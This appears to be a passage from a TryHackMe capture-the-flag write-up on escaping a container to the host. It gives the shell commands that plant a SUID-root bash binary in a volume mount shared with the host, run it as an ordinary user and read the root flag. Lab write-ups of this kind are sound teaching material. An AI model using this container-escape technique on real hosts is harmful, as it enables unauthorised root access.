 
### Privilege Escalation

During post-exploitation, I found that the container(root access) had a volume mount to a directory named `/logs`, which was also accessible on the host system(claire-r account’s access).

<img width="1532" height="726" alt="image 7" src="https://github.com/user-attachments/assets/c636a0cb-5236-4234-aea7-42117320fc19" />

<img width="1578" height="173" alt="image 8" src="https://github.com/user-attachments/assets/ea2b0850-c689-4b10-9b69-4d4337b62fd7" />

<img width="1608" height="586" alt="image 9" src="https://github.com/user-attachments/assets/310030fc-1f62-4285-8ef0-3e38b8cabc9b" />

Strategy:
Use your **root access inside the container** to **place a SUID-root binary** (like a bash shell) inside the **mounted folder**. Since that folder is also visible to the host and owned by root (because the file was created as root inside the container), you can run it from the host to escalate privileges.

I created a SUID-enabled bash binary inside the mounted folder of host target machine:

```bash
claire-r@ip-10-10-251-82:~/timeTracker-src/logs$ cp /bin/bash .
```

On container give it permission of root:

```bash
# ls -la
total 1168
drwxrw-rw- 2 1001 1001    4096 Jul 17 13:58 .
drwxr-xr-x 1 root root    4096 Dec 22  2022 ..
-rwxr-xr-x 1 1001 1001 1183448 Jul 17 13:58 bash
-rw-r--r-- 1 root root     434 Jul 17 13:56 tt.log
# chown root:root bash
# chmod 4777 bash
```

On the host, I executed the binary:

<img width="1768" height="257" alt="image 10" src="https://github.com/user-attachments/assets/70932348-2da1-4b4e-b01f-0a85698cd76a" />

And we are now root on the host!

Last task: Grab the root flag

```bash
bash-5.0# cd /root
bash-5.0# ls -la
total 44
drwx------  6 root root 4096 May  7 19:54 .
drwxr-xr-x 19 root root 4096 Jul 17 12:59 ..
lrwxrwxrwx  1 root root    9 Sep 22  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 May  7 19:54 .cache
drwx------  3 root root 4096 Dec 22  2022 .gnupg
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   38 Dec 22  2022 root.txt
drwx------  4 root root 4096 Dec 20  2022 snap
drwx------  2 root root 4096 Dec 20  2022 .ssh
-rw-------  1 root root 1106 Dec 22  2022 .viminfo
-rw-r--r--  1 root root  165 Dec 22  2022 .wget-hsts
bash-5.0# cat root.txt
THM{1e15fbe7978.....REDACTED}
```

---

That’s it for this machine.✅
